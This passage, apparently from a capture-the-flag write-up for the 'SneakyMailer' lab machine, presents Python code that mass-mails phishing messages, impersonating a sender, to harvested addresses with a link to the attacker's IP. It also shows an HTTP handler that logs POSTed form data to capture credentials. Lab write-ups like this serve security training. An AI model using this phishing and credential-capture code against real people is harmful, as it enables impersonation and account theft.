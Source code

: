 With the `send_mail` function created, we can either send an individual mail for each email that we acquired previously, or we can send one email and define all emails as recipients at once. We can now send messages with a phishing-payload (I will try to simply supply a link to my IP-address.)

 ```python
def phish(mails):
    for mail in mails:
        msg = f"""From: From Chronos <chronos@sneakymailer.htb>
        To: To {mail} <{mail}>
        Subject: Important

        http://{get_ip('tun0')}/
        """
        send_mail(mail,msg)
 ```

With this code we would send an mail for each entry in the mails list.

```python
def phish_mass(mails):
    msg = f"""From: From Chronos <chronos@sneakymailer.htb>
        To: To organization
        Subject: Important

        http://{get_ip('tun0')}/.
        """
    send_mail(mails,msg)
```

This code sends one message to all emails at once.

Now we simply have to start a webserver and listen for a connection. For this we can create a custom handler that logs all incoming http-connections.

```python
class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        ip = self.client_address[0]
        path = self.path
        print(f"[+] Got GET request from {ip}, requesting {path}...")

    def do_POST(self):
        try:
            ip = self.client_address[0]
            print(f"[*] Got POST request from {ip}...")
            # Receive POST data
            length = int(self.headers['Content-Length'])
            body = self.rfile.read(length)
            # URL decode
            body = urllib.parse.parse_qs(body)
            print(f"\n[DEBUG] Full body:\n{body}")
        except Exception as ex:
            print(f"[-] Error: {ex}")
```
